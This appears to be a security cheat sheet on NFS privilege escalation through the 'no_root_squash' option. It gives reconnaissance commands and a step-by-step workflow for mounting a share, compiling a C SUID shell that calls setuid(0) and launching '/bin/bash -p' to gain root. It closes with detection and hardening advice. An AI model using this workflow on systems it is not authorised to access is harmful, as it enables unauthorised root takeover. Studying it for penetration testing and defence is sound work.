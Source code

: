 ## 📁 Cheatsheet: NFS Privilege Escalation

NFS (Network File System) allows a client system to access files over a network as if they were on its local storage. The most critical misconfiguration is **`no_root_squash`**. By default, NFS "squashes" a client's root user, mapping them to a low-privilege `nobody` user on the server. When `no_root_squash` is enabled, the server trusts the client's root user, treating them as the server's own root user on the shared directory. This allows the attacker to create a root-owned SUID binary.

### ## What to Look For (Reconnaissance)

An attacker needs to find open NFS shares and check their configuration.

* **Scan for NFS Shares from a Client Machine:**
    The `showmount` command lists the available shares on an NFS server.
    ```bash
    showmount -e <SERVER_IP>
    # Example Output:
    # Export list for <SERVER_IP>:
    # /home/share *
    # /tmp        192.168.1.0/24
    ```

* **Check the `/etc/exports` File on the Server:**
    If an attacker has initial low-privilege access to the server, they can read this file to see the exact configuration of all shares.
    ```bash
    cat /etc/exports
    # Look for the 'no_root_squash' option. This is the vulnerability.
    # Vulnerable line: /home/share *(rw,sync,no_root_squash)
    ```

* **Check for Already Mounted Shares:**
    ```bash
    mount | grep nfs
    ```

---

### ## Exploitation Workflow (`no_root_squash`)

This attack involves creating a SUID executable on the share from a client machine where the attacker has root privileges.

1.  **On the Attacker's Machine (as root):**
    First, create a local directory to mount the share.
    ```bash
    mkdir /tmp/nfs_share
    ```

2.  **Mount the Insecure Share:**
    Mount the NFS share identified during reconnaissance.
    ```bash
    mount -t nfs <SERVER_IP>:/home/share /tmp/nfs_share/
    ```

3.  **Create and Compile a Malicious Payload:**
    Write a simple C program (`shell.c`) that spawns a shell.
    ```c
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>

    int main() {
        setuid(0);
        setgid(0);
        system("/bin/bash -p");
        return 0;
    }
    ```
    Compile it on your attacker machine.
    ```bash
    gcc shell.c -o shell
    ```

4.  **Create the SUID Binary on the Share:**
    Copy the compiled binary to the mounted share and set the SUID bit. Because of `no_root_squash`, the file will be owned by `root` on the server.
    ```bash
    cp shell /tmp/nfs_share/
    chmod u+s /tmp/nfs_share/shell
    ```

5.  **On the Victim Server (as any user):**
    Now, log into the server with your low-privilege shell. Navigate to the directory that is being shared via NFS.

6.  **Execute the Payload and Get Root:**
    Run the SUID binary you created. It will execute with root privileges.
    ```bash
    cd /home/share
    ./shell
    whoami
    # Output: root
    ```

---

### ## 🛡️ Detection & Remediation (For Defenders)

#### **How to Detect an Attempt**

* **File Integrity Monitoring (FIM):** Monitor exported directories for the creation of new files with the SUID bit set. This is a massive indicator of compromise.
* **NFS Logging:** Review NFS server logs for unusual activity or connections from untrusted IP ranges.

#### **How to Prevent NFS Abuse**

* **Always Use `root_squash`:** This is the most critical defense. `root_squash` is the default setting in most modern Linux distributions for a reason. **Never** use `no_root_squash` unless you have an explicit and well-understood reason.
* **Use `nosuid` and `noexec`:** Configure shares to prevent SUID execution.
    * **Server-Side (`/etc/exports`):** Add the `nosuid` option to your exports.
        ```
        # Bad:
        /home/share *(rw,no_root_squash)
        # Good:
        /home/share 192.168.1.100(rw,root_squash,nosuid)
        ```
    * **Client-Side (`mount` command):** When mounting shares, always include the `nosuid` and `noexec` options.
        ```bash
        sudo mount -t nfs -o nosuid,noexec <SERVER_IP>:/share /mnt/share
        ```

* **Principle of Least Privilege:** Only export directories that absolutely need to be shared. If possible, export them as read-only (`ro`).
* **Use a Firewall:** Restrict access to NFS ports (TCP/UDP 2049 for NFS and 111 for the portmapper) to only trusted client IP addresses or ranges.
